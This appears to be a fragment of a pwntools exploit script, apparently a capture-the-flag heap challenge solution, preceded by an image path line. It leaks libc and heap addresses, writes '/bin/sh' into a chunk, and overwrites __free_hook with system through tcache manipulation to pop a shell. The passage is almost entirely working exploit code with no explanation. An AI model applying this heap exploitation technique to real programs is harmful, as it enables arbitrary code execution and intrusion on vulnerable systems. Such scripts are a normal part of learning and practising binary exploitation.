 ```
    delete(1 + i)
# gdb.attach(p, "b *$rebase(0xD14)")

delete(0)
show(0)

libc.address = get_address() - 96 - 0x10 - libc.sym['__malloc_hook']
log.success("libc address is `{``}`".format(hex(libc.address)))

show(7)
heap_address = get_address()
log.success("heap address is `{``}`".format(hex(heap_address)))

add()  # 8
set_value(9, 0x68732f6e69622f)
add()  # 10

delete(8)
delete(7)

set_value(11, libc.sym['__free_hook'])

add()
set_value(13, libc.sym['system'])

delete(9)

p.interactive()
```
